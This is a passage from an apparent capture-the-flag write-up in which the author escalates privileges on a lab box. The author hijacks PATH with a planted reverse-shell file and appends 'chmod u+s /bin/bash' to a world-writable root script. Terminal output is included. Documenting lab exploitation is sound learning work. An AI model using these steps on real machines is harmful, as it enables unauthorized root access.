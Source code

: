 I used GTFOBins to find any useful binary, but not all were listed.

I searched the /var/backups folder and tried looking in the /opt folder, but the user 'think' doesn't have the permissions.
After trying for some time, I looked at a write-up. I generally look at a write-up when I have tried for a long time and when I can't think of anything new.

The `/usr/sbin/run_container` was the one to be used. When run:
```
think@publisher:/tmp$ /usr/sbin/run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up About an hour

Enter the ID of the container or leave blank to create a new one: 1  
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container
2) Stop Container
3) Restart Container
4) Create Container
5) Quit
Choose an action for a container: ^C
```

The `command not found` error, I tried to used `Vim` to look for what is in the line 16 of the `/opt/run_container.sh`
```
read -p "Enter the ID of the container or leave blank to create a new one: " container_id
validate_container_id "$container_id"
```

```
think@publisher:/tmp$ ls -l /opt/run_container.sh
-rwxrwxrwx 1 root root 1715 Jan 10  2024 /opt/run_container.sh
```
There was no file with the name validate_container_id. So, I learned that I had to create a file. However, I was not aware of what to write in the file. Again, after trying for some time, I looked at the write-up. I created the file in the `/var/tmp` folder as the root was only allowed to create a file/folder in the /tmp folder.

This made sense to me why I could not download linpeas or LSE in the /tmp folder.

In that file, I wrote the reverse bash shell was to be written. (after looking at the write-up). Also I have to export the PATH: `export PATH="$PATH:/var/tmp"`

Then, I ran the /opt/run_container.sh file with a netcat listener that was opened in another terminal.

I could write to the /opt/run_comtainer.sh in this shell. I don't know how, but yes,

Wrote to the file, `echo "chmod u+s /bin/bash" >> /opt/run_container.sh`, which grants SUID permission to the /bin/bash binary.

Ran the run_container.sh file again. And after the execution, using GTFOBins:
```
think@publisher:/var/tmp$ /usr/sbin/run_container
/usr/sbin/run_container
List of Docker containers:
ID: 41c976e507f8 | Name: jovial_hertz | Status: Up 2 hours

jovial
/opt/run_container.sh: line 16: validate_container_id: command not found

OPTIONS:
1) Start Container    3) Restart Container  5) Quit
2) Stop Container     4) Create Container
Choose an action for a container: 1
Error response from daemon: No such container: jovial
```